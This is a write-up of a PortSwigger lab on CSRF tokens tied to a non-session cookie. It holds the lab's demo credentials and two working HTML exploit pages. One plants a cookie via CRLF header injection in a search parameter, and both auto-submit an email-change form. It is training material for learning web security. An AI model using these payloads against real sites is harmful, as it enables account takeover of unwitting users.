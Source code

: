 # [Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

## Lab

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Analysis

prevention using two csrf tokens, one in the cookie and one in the form.

they come in pairs, but still not tied to session

## Solutions

- Solution 1:
  - my account's csrf token (cookie and form)
  - `SameSite=None`: send cookie cross-site
  - `Secure`: required to `SameSite=None`

  ```html
  <html>
  <body>
      <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@gmail.com" />
      <input type="hidden" name="csrf" value="Jw3Nm3tJV2SH5OSq3yZkRT9Jzz3mKjCH" />
      </form>
      <script>
          document.cookie="csrfKey=RDKzE5NrQWSQCMbLARIUhF3hin9jFF6X;SameSite=None;Secure";
          document.forms[0].submit();
      </script>
  </body>
  </html>
  ```

  - I have checked that this works, but the lab is not solved.

- Solution 2: PortSwigger solution:

  ```html
  <html>
  <body>
      <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="pwned@evil-user.net" />
          <input required="" type="hidden" name="csrf" value="Jw3Nm3tJV2SH5OSq3yZkRT9Jzz3mKjCH">
      </form>

      <img src="https://id.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=RDKzE5NrQWSQCMbLARIUhF3hin9jFF6X%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
  </html>
  ```
